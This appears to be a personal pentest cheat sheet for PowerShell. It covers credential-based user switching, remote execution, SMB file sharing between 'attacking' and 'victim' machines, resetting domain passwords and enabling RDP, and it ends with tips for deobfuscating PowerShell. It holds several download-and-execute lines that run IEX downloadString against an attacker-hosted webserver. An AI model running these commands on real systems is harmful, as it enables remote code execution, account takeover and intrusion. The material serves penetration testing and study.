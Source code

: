 ## Powershell on linux

- install `powershell-bin`
- `pwsh`

---

## Switch user

```
$user = hostname\\user
$pass = ConvertTo-SecureString '<password>' -Asplain -Force
$cred = New-Object System.Management.Automation.PSCredential($user, $pass)
```

### In a new session

`New-PSSession -Credential $cred | Enter-PSSession`
or
`Start-Process powershell.exe -Credential $creds -NoNewWindow`

### To launch :

- a script from a ps1 on a webserver : `invoke-command -Computer \<hostname\> -Credential $cred -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http...ps1') }`
- a command : `Invoke-Command -ComputerName host -Credential $cred -Scriptblock {whoami}`

- If it doesn't work, modify the cred part. Use `crackmapexec` to see which user it uses (like \\host\user or else) and use this.

---

## Sharing folder on most up to date windows with SMB

- on attacking machine

`smbserver SHARE $(pwd) -smb2support -user <user> -password <password> (could be a new user)`

- on victim machine

```
$pass = convertto-securestring 'password' -AsPlainText -Force

$cred = New-Object System.Management.Automation.PSCredential('user', $pass)

New-PSDrive -Name user -PSProvider Filesystem -Credential $cred -Root \\ip\share
```

---

## Powershell history

`C:\Users\<user>\appdata\roaming\microsoft\windows\powershell\PSReadLine\`

---

## Change password of a domain user

`net user <user> <new_password>`

---

## Enable RDP

` Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0`
- Enable through firewall (may be optionnal) : `Enable-NetFirewallRule -DisplayGroup "Remote Desktop"`

---

## Execute file hosted on attacking machine on the victim machine :

- powershell "IEX(New-Object Net.WebClient).downloadString('http....')"


---

## Powershell deobfuscate

- Read the file if possible
- see if it's a cmd or powershell command, launch it in the good shell (in a sandbox !)
- Activate the GPO to see the logs : 

![d7b2d3c9463e93891d9f5d66925e7c64.png](../../_resources/09d78747ce2d4ba990c3174a77da5509.png)

- The request will then be readable in your folder specified in the gpo, or in the event viewer.

![0e1403f2d0ddfbe3f15f399d35910c1f.png](../../_resources/b837993e2a1d4044bce0582f7d5cf39c.png)


![e8df5a572cc4995fd43b38937b747c9d.png](../../_resources/99a3ca3e3dc6499a9c00c3dc4ccbb1e8.png)
